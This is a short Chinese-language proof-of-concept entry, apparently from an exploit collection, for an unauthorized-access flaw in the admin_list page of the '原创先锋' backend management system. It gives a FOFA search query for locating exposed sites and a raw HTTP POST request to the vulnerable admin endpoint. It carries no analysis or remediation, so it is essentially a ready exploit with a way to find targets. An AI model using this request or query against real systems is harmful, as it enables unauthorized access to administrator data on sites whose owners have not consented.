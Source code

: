 # 原创先锋后台管理admin_list存在未授权访问

# fofa
```
body="https://www.bjycxf.com"
```

# poc
```javasrcipt
POST /admin/admin/admin_list.html HTTP/1.1
Host: 
Content-Type: application/json
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.3
Transfer-Encoding: chunked
```
